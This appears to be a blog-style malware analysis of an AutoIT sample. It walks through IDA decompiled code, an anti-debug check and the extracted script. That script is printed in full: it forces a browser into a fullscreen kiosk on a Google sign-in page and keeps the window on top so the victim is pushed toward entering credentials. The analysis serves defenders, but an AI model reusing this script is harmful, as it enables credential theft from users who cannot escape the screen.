 ```yaml
---
layout: post
title: Malware Analysis - Real Case 4 
description: An AutoIT malware attempted to steal Gmail accounts
tags: [Malware, Reverse Engineering, Blue Team, Real Case, Forensic]
---
```


Hi everyone, this article is the next one I want to share to all of you. I analysed this malware yesterday, and I just saw [a post of Whitehat](https://www.facebook.com/photo?fbid=903281355164185&set=gm.3794755057519327&idorvanity=2217764565218392) about it, so I think it's really important that I need to share how I analysed this malware so that you can know how to prevent from it! Let's go!

Sample: click [here](https://bazaar.abuse.ch/sample/1cf0747ce1310fd989b24a93d2108784efb003948fdec1f7e64479213075cb90/) to see it

First, I checked malware information: 

![image](https://github.com/user-attachments/assets/cf27d920-e3e8-4c58-b9b9-70a04bff808c)

There's still nothing interesting, next I used IDA to analyse: 

![image](https://github.com/user-attachments/assets/667f9940-0f3c-4f41-94e9-397011b324a4)

**sub_402A32(lpCmdLine);** is the most suspicious thing, I checked it immediately and I found an interesting thing: 

```
int __stdcall sub_402A32(void *a1)
{
  char v1; // bl
  int v2; // ecx
  HWND ForegroundWindow; // eax
  const WCHAR *v5; // [esp-10h] [ebp-20048h]
  const WCHAR *v6; // [esp-Ch] [ebp-20044h]
  char v7; // [esp+11h] [ebp-20027h] BYREF
  char v8; // [esp+12h] [ebp-20026h]
  char v9; // [esp+13h] [ebp-20025h] BYREF
  LPWSTR FilePart; // [esp+14h] [ebp-20024h] BYREF
  LPCWSTR lpParameters[4]; // [esp+18h] [ebp-20020h] BYREF
  LPCWSTR lpFile[4]; // [esp+28h] [ebp-20010h] BYREF
  WCHAR Buffer[32768]; // [esp+38h] [ebp-20000h] BYREF
  WCHAR v14[32768]; // [esp+10038h] [ebp-10000h] BYREF

  sub_40A961(lpFile);
  v1 = 0;
  v7 = 0;
  v8 = 0;
  GetCurrentDirectoryW(0x7FFFu, Buffer);
  sub_402E37(a1, &v9);
  if ( IsDebuggerPresent() )
  {
    MessageBoxA(0, "This is a third-party compiled AutoIt script.", Caption, 0x10u);
    return sub_40988F(lpFile);
  }
  if ( dword_4D1400 )
  {
    if ( dword_4D1400 == 1 )
    {
      sub_4075AC(1, dword_4D1408, -1);
      byte_4D2392 = byte_4D1364;
      goto LABEL_6;
    }
    if ( (unsigned __int8)sub_402DE3(&lpFileName, &dword_4D1400, v2, &v7) )
    {
      v8 = HIBYTE(word_4D2390);
      byte_4D1404 = word_4D2390;
      GetFullPathNameW(lpFileName, 0x7FFFu, v14, &FilePart);
      sub_406B57(FilePart);
      v1 = v7;
LABEL_6:
      if ( sub_401CD0(&lpFileName, dword_4D1400) )
      {
        sub_403D1B(&word_4D2390);
        SetCurrentDirectoryW(Buffer);
        dword_4D135C = 1;
        return sub_40988F(lpFile);
      }
      if ( v8 != 1 || (unsigned __int8)sub_461663() || v9 )
      {
        sub_402B83();
        sub_402C63();
        if ( !byte_4D1404 )
          sub_403837(&dword_4D1990);
        sub_40D760(1);
        if ( !byte_4D1404 )
          sub_4030F2(&dword_4D1990);
      }
      else
      {
        sub_403A5A(lpFile);
        sub_409CB3(&unk_4C2224);
        if ( v1 )
        {
          sub_4033C6("\"");
          sub_406350(&lpFileName);
          sub_4033C6("\"");
        }
        else
        {
          sub_4033C6(a1);
        }
        v6 = lpParameters[0];
        v5 = lpFile[0];
        ForegroundWindow = GetForegroundWindow();
        ShellExecuteW(ForegroundWindow, L"runas", v5, v6, Buffer, 1);
        sub_40988F(lpParameters);
      }
      sub_403D1B(&word_4D2390);
      goto LABEL_13;
    }
    dword_4D135C = 1;
  }
  else
  {
    dword_4D135C = -1;
  }
LABEL_13:
  SetCurrentDirectoryW(Buffer);
  return sub_40988F(lpFile);
}
```

In this function, the first condition will check if there's any debugger was used, if yes it will print **"This is a third-party compiled AutoIt script."**. This is one of the techniques that was used to antt debug, 
and if you want to debug it without being catched by this condition, you can install [Scyllahide](https://github.com/x64dbg/ScyllaHide) - a plugin was created to anti anti-debug. But in this case it's not necessary, because 
there's a good thing to look. Because of the string **This is a third-party compiled AutoIt script.**, I've known that it was compiled by AutoIT, and there's a [tool](https://github.com/digitalsleuth/autoit-extractor) help us analyse this type of malware. Open it, import exe file and this is what I got: 

![image](https://github.com/user-attachments/assets/d84c8dd8-4892-4864-9a9f-2603f7ffb266)

```
Local $url = "https://accounts.google.com/ServiceLogin?service=accountsettings&continue=https://myaccount.google.com/signinoptions/password"
Local $primarybrowser = ""
Local $primaryclass = ""
If FileExists("C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe") Or FileExists("C:\Program Files\Microsoft\Edge\Application\msedge.exe") Then
    $primarybrowser = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
    $primaryclass = "[CLASS:Chrome_WidgetWin_1]"
ElseIf FileExists("C:\Program Files (x86)\Google\Chrome\Application\chrome.exe") Or FileExists("C:\Program Files\Google\Chrome\Application\chrome.exe") Then
    $primarybrowser = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
    $primaryclass = "[CLASS:Chrome_WidgetWin_1]"
ElseIf FileExists("C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe") Or FileExists("C:\Program Files (x86)\BraveSoftware\Brave-Browser\Application\brave.exe") Then
    $primarybrowser = "C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe"
    $primaryclass = "[CLASS:Chrome_WidgetWin_1]"
Else
    Exit
EndIf
If StringInStr($primarybrowser, "msedge.exe") Then
    Run($primarybrowser & " --kiosk --edge-kiosk-type=fullscreen --no-first-run --disable-features=TranslateUI --disable-popup-blocking --disable-extensions --no-default-browser-check --app=" & $url)
Else
    Run($primarybrowser & " --kiosk --disable-features=TranslateUI --disable-infobars --no-first-run --disable-popup-blocking --disable-extensions --no-default-browser-check --app=" & $url)
EndIf
Sleep(0x7d0)
Local $hwnd = WinGetHandle($primaryclass)
While 0x1
    If Not WinExists($hwnd) Then
        If StringInStr($primarybrowser, "msedge.exe") Then
            Run($primarybrowser & " --kiosk --edge-kiosk-type=fullscreen --no-first-run --disable-features=TranslateUI --disable-popup-blocking --disable-extensions --no-default-browser-check --app=" & $url)
        Else
            Run($primarybrowser & " --kiosk --disable-features=TranslateUI --disable-infobars --no-first-run --disable-popup-blocking --disable-extensions --no-default-browser-check --app=" & $url)
        EndIf
        Sleep(0x7d0)
        $hwnd = WinGetHandle($primaryclass)
    EndIf
    WinSetOnTop($hwnd, "", 0x1)
    If Not WinActive($hwnd) Then
        WinActivate($hwnd)
    EndIf
    Sleep(0x1f4)
WEnd
```

Let's analyse step by step: 

- First, they created **$url** variable which redirects you to Google signup screen
- Second, there're 3 conditions to check which browser in our computer: **msedge, chrome or brave**
- After locating the browser, it was executed with specific command-line options to optimize the kiosk experience. The **--kiosk** option launched the browser directly into kiosk mode, while **--edge-kiosk-type=fullscreen** ensured that this mode occupied the entire screen. Additional options such as **--no-first-run** and **--disable-popup-blocking** were included to disable certain features, creating a more streamlined and user-focused kiosk environment.
- The script then pauses for a moment using **Sleep(0x7d0)** (which is 2000 milliseconds or 2 seconds) to allow the browser to start.
- It retrieves the handle of the browser window using **WinGetHandle($primaryclass)**.
- The script enters an infinite while loop (While 0x1).
- If the browser window no longer exists (**If Not WinExists($hwnd)**), it reruns the browser with the same conditions as before and reacquires the window handle.
- The script uses **WinSetOnTop($hwnd, "", 0x1)** to keep the browser window on top of all other windows.
- If the browser window is not active, it activates the window using **WinActivate($hwnd)**.
- The script pauses briefly (500 milliseconds) in each iteration to avoid consuming too much CPU.
- The loop continues indefinitely, ensuring the browser remains open, on top, and active in **kiosk mode**.

Because of kiosk mode, many people cannot escape from signup screen, they don't have choice except signup their account, and in that time attackers can do many things: steal sensitive data... <br><br><br>
**Summary:**<br>
**MITRE ATT&CK: T1036.003, T1012, T1082**.<br>
**IOC: 1cf0747ce1310fd989b24a93d2108784efb003948fdec1f7e64479213075cb90**. <br><br>
Thank you for reading my blog! See you in the next article in the future. Bye 🫀🫀🫀!!

